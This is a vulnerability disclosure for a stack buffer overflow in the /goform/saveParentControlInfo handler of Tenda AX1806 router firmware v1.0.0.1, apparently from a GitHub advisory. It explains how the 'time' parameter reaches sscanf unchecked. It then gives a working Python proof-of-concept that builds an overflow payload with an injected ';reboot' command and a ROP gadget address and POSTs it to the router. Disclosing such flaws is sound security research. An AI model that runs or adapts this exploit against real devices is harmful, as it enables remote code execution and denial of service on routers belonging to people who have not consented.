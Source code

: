 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html

There is a stack buffer overflow vulnerability in the `saveParentControlInfo` function.

First， this function calls the sub_60BE0 function.

![image-20220209004540591](image/1.png)

In the sub_60BE0 function, the `v12` variable is directly retrieved from the http request parameter `time`.

![image-20220209004630375](image/2.png)

Then `v12` will be splice to stack by function sscanf without any security check, which causes stack overflow.

So by POSTing the page `/goform/saveParentControlInfo` with proper `time`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

The exploit of **Remote Code Execution**:

```python
from pwn import*
import requests

url = "https://192.168.2.1/goform/saveParentControlInfo"

gadget = 0x37208

time =  b"a" * 0x58
time += b";reboot"
time += b"-"
time += b"b" * 0x34
time += p32(gadget)

r = requests.post(url, data = {"time":time},verify=False )


print(r.content)

```
